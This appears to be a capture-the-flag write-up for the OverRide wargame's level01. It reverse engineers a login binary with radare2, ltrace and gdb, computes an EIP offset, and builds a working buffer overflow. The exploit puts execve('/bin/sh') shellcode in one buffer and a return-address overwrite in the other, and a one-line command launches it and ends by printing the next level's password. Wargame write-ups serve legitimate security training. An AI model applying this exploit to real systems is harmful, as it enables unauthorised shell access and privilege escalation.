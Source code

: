 # Level 01 Buffer Overflow

## Overview
The binary is a basic login program that asks for `username` and `password`.
There are 2 `fgets()` functions with buffers of size `256` and `100` in the program, that suggest the possibility of a **buffer overflow** vulnerability. For *flow redirection* to a *shellcode* execution. 

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```
![R2 graph](../docs/media/l1.r2.png)

### Verify User Name
The username verification happens with a **7 characters** comparison with the name `"dat_wil"`, that disables the possibility of the *buffer overflow* attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```
![R2 Verify Username](../docs/media/l1.verify_username.png)

### `fgets` Buffer Sizes
As we can see with `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Find EIP offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recolected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{aligned}
\text{Buffer1.address + 7} &= \text{"\textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08"} \\
\text{Buffer1} &= \text{"dat\_wil"} + \text{Shellcode} \\
\text{Buffer2} &= \text{80 character padding} + \text{Buffer1.address + 7}
\end{aligned}
$$

### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

### Result

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
